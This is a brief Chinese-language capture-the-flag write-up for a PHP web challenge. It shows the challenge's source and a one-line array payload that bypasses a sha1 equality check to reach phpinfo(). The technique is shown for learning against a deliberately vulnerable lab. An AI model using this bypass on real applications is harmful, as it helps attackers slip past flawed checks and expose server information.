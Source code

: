 # [极客大挑战 2020]Roamphp1-Welcome
![](<./img/Pasted image 20230215112137.png>)

```
/
```

![](<./img/Pasted image 20230215112320.png>)

嗯？

![](<./img/Pasted image 20230215112339.png>)

尝试`POST`

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
}
```

简单的数组绕过

```
roam1[]=1&roam2[]=2
```

![](<./img/Pasted image 20230215114149.png>)
